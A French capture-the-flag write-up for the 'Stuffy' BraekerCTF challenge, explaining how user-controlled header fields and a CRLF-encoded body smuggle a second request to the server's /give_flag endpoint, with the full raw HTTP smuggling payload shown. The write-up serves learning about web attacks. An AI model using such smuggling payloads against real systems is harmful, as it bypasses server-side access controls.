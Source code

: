 ```yaml
---
layout: post
title: "Stuffy BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: assets/what_is_sql_injection_attack_4bdd2066d6.png
title_color: "#ffffff"
---
```




Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.

Seulement, nous n’avons pas la main sur le username. Il est choisi à partir du fichier usenames.txt fourni qui est une liste de username aléatoires + 4 chars aléatoires.

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l’endpoint /give_flag.
Cette fonction update la valeur du “stuff” avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même. On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c’est le proxy nginx qui modifie les headers. Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers /give_flag. Ça tombe bien /set_stuff fait une requête vers /update_profile_internal.

Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien. Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200. Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction security_filter. Les variables special_type et special_val deviennent des Headers et stuff est une partie du body.

Nous avons donc la main sur trois variables stuff, special_val et special_type. La piste la plus probable est une request smuggling.
Essayons.

POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
